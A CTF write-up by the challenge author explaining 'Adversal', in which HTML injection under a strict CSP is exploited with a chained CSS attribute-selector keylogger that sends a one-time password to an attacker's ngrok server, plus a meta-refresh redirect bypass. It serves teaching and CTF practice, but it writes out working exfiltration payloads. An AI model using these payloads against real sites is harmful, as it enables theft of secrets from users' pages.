



# Adversal

## Inspiration

I thought of the idea for this challenge while preparing an intermediate web security presentation. One of the topics was Content Security Policies (CSP), and I was trying to think of interesting exploits one can perform when HTML can be injected into the page, even with a strict CSP. I remembered reading about a CSS keylogger a while ago, so I decided to look into that exploit. I found that exploit uses CSS rules to exfiltrate a single character an element's value attribute, given that the previous characters are known. This can be done repetitively to exfiltrate the entire value, which I found was used in some previous CTF challenge. This inspired me to make a challenge that expands on this idea: what if you have to exfiltrate the value using this exploit in entirely one request?

## Challenge Analysis

### One Time Password and Advertisements

The home page of this website gives a fair bit of description about the challenge 



Transcription:

```
The web app of interest generates one time passwords for users. It lives at /otp
The page can also display HTML for an advertisement, supplied by the '?ad=' query parameter
Our admin bot will visit the OTP page with an advertisement on the page supplied by you
You need to exfiltrate the OTP from the page. Note that the OTP is different every time the page is loaded.
Good luck!
```

This tells us that we likely need to craft some HTML for an "advertisement" that will exfiltrate the OTP (one time password) off of the page. It also tells us that the OTP will be different each time the page is loaded. We can visit the `/otp` endpoint with an `ad` query parameter to see what happens. For example, visiting `/otp?ad=hello` gives



We can see the OTP and our ad displayed.

Let's take a look at the source to see exactly how this page is created (I omitted some less sigificant parts of the source).

The `/otp` endpoint contains:

```javascript
app.get('/otp', (req, res) => {
    // ...
    let ad = req.query.ad || defaultAd; 

    // Imagine that the OTP gets used somewhere important
    //  (you will need to exfiltrate it from the admin bot to get the flag)
    let otp = randomstring.generate({length: 12, charset: 'alphanumeric'});

    res.set("Content-Security-Policy", "script-src 'none'; object-src 'none'; connect-src 'self';");

    res.render('otp', {
        otp: otp,
        ad: ad
    });
});
```

The `otp.ejs` template contains

```html
<div class="ui container grid centered">
    <div class="column twelve wide">    
        <h1>Here is your one time password!</h1>
        <h4>Make sure to keep it secret...</h4>
        <input id="otp" name="otp" type="text" value="<%= otp %>" disabled />
    </div>

    <div class="column four wide">
        <div id="ad">
            <div style="display: inline-block;">
                <%- ad %>
            </div>
        </div>
    </div>
</div>
```

So the endpoint randomly generates an OTP of length 12, and then writes the OTP and the content of the ad query parameter. Note that the OTP is being written to the `value` attribute of an element rather than the text content. The add is being written to the page via `<%- ad%>`. In EJS this syntax means that HTML characters will not be escaped, so we can inject any HTML onto the document through our ad that we want. Note that the page seems to have a very strict Content Security Policy.

### The Admin Bot

Just to understand it, let's see how the admin bot will actually visit the page we give it. When we submit an ad to the admin bot, we send it as an `ad` query parameter to the `/visit` endpoint.

The `/visit` endpoint contains

```javascript
app.get('/visit', async (req, res) => {
    const ad = req.query.ad
    console.log('received ad: ', ad)

    let url = CHAL_URL + '/otp?ad=' + ad;

    try {
        console.log('visiting url: ', url)
        let otp = await visitUrl(url, req.hostname)
        if(otp != null) {
            req.session.otp = otp;
            res.redirect('done.html');
        } else {
            res.send('Error: evaluator could not find the OTP element on the page')
        }
    } catch (e) {
        console.log('error visiting: ', url, ', ', e.message)
        res.send('Error visiting page with your ad: ' + escape(e.message))
    } finally {
        console.log('done visiting url: ', url)
    }
});
```

The `visitUrl` function contains the lines (among some boilerplate)

```javascript
await page.setUserAgent('puppeteer');
await page.goto(url, { timeout: 20000, waitUntil: 'networkidle2' })
otp = await page.$eval("input", element=> element.getAttribute("value"));
```

It seems that the bot is limited to only visiting the `/otp` page with our supplied `ad`. The `visitUrl` function uses the library `puppeteer` to emulate a Chrome browser visiting the page. The bot then reads the `value` attribute of an `input` element on the page to get the OTP. If an OTP is found, it stores it in the user's session (note that the "user" is us, not the bot, since this code is in the `/visit` endpoint which we are visiting).

Note that since `/otp` generates a random OTP each time, each time the admin bot runs there will be a different OTP on the page that it reads.

Finally, after a successful submission, we are redirected to the `done.html`, in which we can press a button to get the flag. This redirects to the `/flag` endpoint 

```javascript
app.get('/flag', (req, res) => {
    if(req.query.otp && req.session.otp && req.query.otp === req.session.otp) {
        res.send(FLAG);
    } else {
        res.send('Incorrect! <a href="/index.html">Back to home</a>');
    }
});
```
In order to get the flag, we must submit an OTP that is equal to the one that the admin bot read off the page and stored in our session. So our ultimate goal is to obtain the OTP that the admin bot read.

## Solution Walkthrough

### The Attack Vector

The most apparent attack vector, and the one the challenge seems to be hinting at, is the advertisement we submit. So we could try to submit an advertisement that, when loaded on the `/otp` page, exfiltrates the `value` attribute of the OTP `input` element.

We found that the `/otp` page has a very strict CSP (Content Security Policy), which was as follows.

```
script-src 'none';
object-src 'none';
connect-src 'self';
```

This completely disallows scripts. So we cannot simply read it with JavaScript. The only content that the CSP seems to allow is stylesheets and images. Note that these resources can come from any source since there is no `default-src` directive specified.

Note that an alternative approach may be to modify the value of the OTP to something we know before the admin bot reads it, or trick the admin bot into reading the OTP from a different element. However, it does not seem possible to inject HTML with our own `input` element for the bot to read from, as the bot selects the first `input` element on the page and our advertisement is loaded after that element. Similarly, it seems there is no way to completely modify the page or redirect to another page (spoilers; this is actually **not** impossible! See the Unintended Solutions section).

### An Idea

So it seems like we can only inject stylesheets and images in order to help us with our goal. To exfiltrate the OTP, we need two components: a way to read it, and a way to send it to a server that we control.

Images are a common way to make requests to an external server under a strict CSP. The common way to do this is to create an image with a `src` attribute that is a URL to a server we control (with the information that we want to exfiltrate placed somewhere in the URL). When the page then loads the image, it makes a request to that URL on our server. We can then read the request on our server to get the exfiltrated information.

We still need a way to actually read the OTP off of the page. A key observation is that the OTP is stored in the `value` attribute of a element, rather than its text content. By reading about CSS selectors (https://www.w3schools.com/cssref/css_selectors.php), we can find that CSS can actually interact with element attributes somewhat. Namely, you can define a CSS rule that applies a style to an element only if a certain attribute contains some value.

The selector of interest is `[attribute^=value]`, which matches every element whose attribute value begins with `value`. So we can apply a style to an element only if it starts with a certain string. We could potentially use multiple of these selectors to determine what the first character of the OTP is. For example

```css
input[value^="a"] {}
input[value^="b"] {}
...
input[value^="Z"] {}
```

Only one of these selectors will actually match, depending on what the first character of the `input`'s `value` attribute is! So how do we exfilitrate which selector matched? Well, we can have each rule define a `background-image` for the element with a URL that points to our server and contains the matched character in the URL! For example, we could construct the CSS

```css
input[value^="a"] { background-image: url("https://...ngrok.com/capture/a") }
input[value^="b"] { background-image: url("https://...ngrok.com/capture/b") }
...
input[value^="Z"] { background-image: url("https://...ngrok.com/capture/Z") }
```

When loading the image, the browser will make a request to the respective URL containing the first character. This allows us to exfilitrate the first character.

### Exfiltrating the Remaining Characters

We still of course need to exfilitrate the remaining characters of the OTP. One idea is to modify our CSS once we know the first character so that we exfilitrate the second character. For example, say that we find the first character is `e`. Then we could check if the OTP starts with `ea`, `eb`, `ec`, etc. Such a playload could look like:

```css
input[value^="ea"] { background-image: url("https://...ngrok.com/capture/ea") }
input[value^="eb"] { background-image: url("https://...ngrok.com/capture/eb") }
...
input[value^="eZ"] { background-image: url("https://...ngrok.com/capture/eZ") }
```

We could then continue this process until we have exfiltrated all 12 characters. However, there is an issue: every time the page is loaded, the OTP changes. So, we cannot make multiple requests to the admin bot with different CSS payloads each time, as the OTP on the page would be different as well. Instead, we need to form **one** payload that somehow updates the pages style every time we have exfiltrated a new character.

To accomplish this, we need to take advantage of links. Stylesheets can be externally linked via a `<link rel="stylesheet" src="https://example.com/style.css" />` element, where the `src` is the URL to load the stylesheet from. So we can inject a `link` element in our advertisement that loads CSS from our server. In fact, we can actually include **many** link elements in our advertisement, one to exfiltrate each character.

When the browser encounters `link` elements, it will make requests to each one's `src` URL to load the style. Once a response is received, it will **immediately** apply the style to the page. So, we can craft our server such that one of the URL's responds immediately, but the other URL's wait to response. The first CSS that we respond with will exfiltrate the first character, and once we receive the character, we can allow one of our waiting URL's to respond with CSS that will exfiltrate the second character. We can proceed like this until we exfiltrate all of the characters.

Here is an example of what such a payload would look like:

```html
<link rel="stylesheet" href="https://...ngrok.com/style/0">
<link rel="stylesheet" href="https://...ngrok.com/style/1">
<link rel="stylesheet" href="https://...ngrok.com/style/2">
<link rel="stylesheet" href="https://...ngrok.com/style/3">
<link rel="stylesheet" href="https://...ngrok.com/style/4">
<link rel="stylesheet" href="https://...ngrok.com/style/5">
<link rel="stylesheet" href="https://...ngrok.com/style/6">
<link rel="stylesheet" href="https://...ngrok.com/style/7">
<link rel="stylesheet" href="https://...ngrok.com/style/8">
<link rel="stylesheet" href="https://...ngrok.com/style/9">
<link rel="stylesheet" href="https://...ngrok.com/style/10">
<link rel="stylesheet" href="https://...ngrok.com/style/11">
```

We could have `/style/0` respond first and the others wait. `/style/0` could return:

```css
input[value^="a"] { background-image: url("https://...ngrok.com/capture/a") }
input[value^="b"] { background-image: url("https://...ngrok.com/capture/b") }
...
input[value^="Z"] { background-image: url("https://...ngrok.com/capture/Z") }
```

Say the first character of the OTP was `b`. Our server would then receive a request from the browser to `https://...ngrok.com/capture/b`. Our server could then use this character and have `https://...ngrok.com/style/1` finally respond with:

```css
input[value^="ba"] { background-image: url("https://...ngrok.com/capture/ba") }
input[value^="bb"] { background-image: url("https://...ngrok.com/capture/bb") }
...
input[value^="bZ"] { background-image: url("https://...ngrok.com/capture/bZ") }
```

If the second character was `Z`, our server would receive a request to `https://...ngrok.com/capture/bZ`, from which it could have `https://...ngrok.com/style/2` with CSS to exfiltrate the next character, and so on.

Eventually, this will exfiltrate the entire OTP, all with one payload!

### Crafting the Exploit Server

To implement a server with such a behavior, I used Flask's default multithreading behavior. Flask spawns a thread for each request, so I had each `style` endpoint wait on a condition variable. When a character was exfiltrated via a request to the `capture` endpoint, the server would notify the condition variable for the next `style` endpoint to respond, which would use the newly exfiltrated character to craft its response.

More simply, you could also just have each thread periodically wake up after some time delay and check if it is its turn to respond.

The source of the server I crafted is provided in the `solvers` folder.

### Exposing the Server to the Internet with `ngrok`

To tunnel the HTTP server running locally on my computer to the internet so that the admin bot could access it, I used the popular and free tool [ngrok](https://ngrok.com/).

### Potential Difficulties

#### HTTP v2 and HTTPS

An important note that could effect solves of the challenge is that Chrome is normally limited to making only a few concurrent requests to the same domain. This would prevent our exploit from working, as it requires Chrome to receive responses from some requests while concurrently waiting for other requests to complete. Luckily, HTTP v2 supports **multiplexing**, which allows the browser to make concurrent requests to a web server through a single connection and receive the responses in any order. However, in order for Chrome to accept HTTP v2 traffic, it must be served over HTTPS. Otherwise, it limits itself to HTTP v1.1. So the server must support HTTP v2 and HTTPS. The aforementioned tool ngrok provides a free and easy method to tunnel a locally hosted server HTTP over HTTPS in order to accomplish this.

#### Issues With Using the Same URL

Note that if your exploit caused requests to be made to the same URL, you may have experienced issues. For example, say the first CSS you return is the following:

```css
input[value^="a"] { background-image: url("https://...ngrok.com/capture/a") }
input[value^="b"] { background-image: url("https://...ngrok.com/capture/b") }
...
input[value^="Z"] { background-image: url("https://...ngrok.com/capture/Z") }
```

Say the first character of the OTP is `a`. The browser makes a request to `https://...ngrok.com/capture/a`. Say we then responded with the following to exfiltrate the second character:

```css
input[value^="aa"] { background-image: url("https://...ngrok.com/capture/a") }
input[value^="ab"] { background-image: url("https://...ngrok.com/capture/b") }
...
input[value^="aZ"] { background-image: url("https://...ngrok.com/capture/Z") }
```

Say the second character of the OTP is `a`. The browser would normally make a request to `https://...ngrok.com/capture/a`. However, the browser already loaded the "image" from this same URL when we exfiltrated the first character. So Chrome actually does not make a request here and our exploit stops. This is why in the example solution we placed the entire known string in the `background-image` URL (rather than just the current character); to avoid loading from the same resource. You could also avoid this by just putting some unique string somewhere in the URL; as long is it ensures it is different from the previous URL's.

## Unintended Solution

When creating this challenge, I tried to make it impossible for the crafter of the exploit to manipulate the `otp_box` element or create their own element that the bot would select instead. If they could do this, they could just put a known value in the element, which the bot would read. However, I failed to prevent one interesting exploit that I had not heard of before!

It turns out there is actually an HTML payload that will cause the page to immediately redirect, even under the strict CSP that `/otp` had! The payload consists solely of this `meta` element

```html
<meta http-equiv="refresh" content="0;url='https://...ngrok.io/'" />
```

This will cause the page to "refresh" after `0` seconds and redirect to the URL `https://...ngrok.io`. You could have your server serve a page that has an `input` element with a known `value`. Since the admin bot would get immediately redirected to this page, it would actually read this `value` instead of the one on the original `/otp` page! You could then submit the known value to get the flag. Note that sometimes submitting this payload would cause some strange networking error.

It turns out that there is no CSP directive that actually blocks this. I could only find this lone request to add it to the CSP specification: https://lists.w3.org/Archives/Public/public-web-security/2011Jun/0157.html. 

In response to this unintended solution, I released an additional challenge `adversal-revenge` that blocks redirects in the admin bot script. The source for that challenge is also included if you are interested!

## Notable Challenge Design Decisions

I would like to note some challenge design decisions that could be informative for developing web challenges in the future.

### Client Session Cookies

A critical component of this challenge was storing the OTP that the admin bot read off of the page in a user session so that it could later compare it to the OTP submitted by the CTF player. This determined if the flag should be returned or not.

Our CTF was using Google Cloud Run for web challenges, which did not guarantee persistence. Therefore, I could not rely on typical user sessions to store this information. We could have used an external database, but this would add more cost or overhead.

I instead used client session cookies, which would store all of the user's session data in a cookie in their browser! An important consideration in doing this is that the user should not be able to read the OTP from the cookie or tamper with the cookie. Otherwise, they could trivially obtain the flag.

For node.js, two common middleware libraries for client session cookies are `cookie-session` (by Express) and `client-sessions` (by Mozilla). Interestingly, while the former is much more popular, it does not encrypt the data in the cookie, while the latter does ([read more](https://github.com/expressjs/cookie-session/issues/9)). Therefore, I used `client-sessions`, which provided the security that I needed.

### Puppeteer User Agent

As mentioned in the above section "Exposing the Server to the Internet with `ngrok`", ngrok is a popular tool for exposing a local HTTP server to the internet. It is commonly by CTF players so that an admin bot can make requests to their exploit server. However, recently ngrok adding a warning page when visiting an `http` or `https` page tunnelled through it, which requires the client to click a button to continue. 



This is quite inconvienent for CTF's, as an admin bot that visits an ngrok URL will just load this page, rather than the page the CTF player is trying to serve. One way around this is to tunnel a port `tcp` rather than an `http` port; ngrok will not display the warning page since TCP is not limited to just websites. However, the challenge explicitly required the solver to expose a `https` endpoint.

To prevent CTF players from running into this issue, I added the following line to the admin bot's source 

```
await page.setUserAgent('puppeteer');
```

This informs `ngrok` that the client is a non-standard browser, which causes it not to display the warning page. For convenience, I think this is good practice for challenges that use libraries like `puppeteer` to make requests to URL's crafted by the CTF player.